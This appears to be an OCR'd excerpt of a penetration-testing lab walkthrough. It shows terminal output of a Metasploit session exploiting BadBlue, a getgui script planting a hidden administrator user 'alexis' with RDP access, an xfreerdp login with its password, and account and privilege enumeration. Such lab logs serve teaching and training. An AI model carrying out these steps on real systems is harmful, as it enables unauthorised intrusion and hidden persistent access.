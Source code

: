 ```
[*] 	Hiding user from Windows Login screen
[*] 	Adding User: alexis to local group 'Remote Desktop Users'
[*] 	Adding User: alexis to local group 'Administrators'
[*] You can now login with the created user
[*] For cleanup use command: run multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up__20230705.1402.rc
```

```
meterpreter > 
Background session 1? [y/N]  
msf6 exploit(windows/http/badblue_passthru) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                  Connection
  --  ----  ----                     -----------                                  ----------
  1         meterpreter x64/windows  ATTACKDEFENSE\Administrator @ ATTACKDEFENSE  10.10.16.2:4444 -> 10.0.26.194:49758 (10.0.26.194)

msf6 exploit(windows/http/badblue_passthru) > exit -y
root@attackdefense:~# 
```

```
root@attackdefense:~# xfreerdp /u:alexis /p:hacker_123321 /v:10.0.26.194
```

```
C:\Users\alexis>whoami
attackdefense\alexis

C:\Users\alexis>net user

User accounts for \\ATTACKDEFENSE

-------------------------------------------------------------------------------
Administrator            alexis                   DefaultAccount
Guest                    student                  WDAGUtilityAccount
The command completed successfully.

C:\Users\alexis>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

C:\Users\alexis>
```
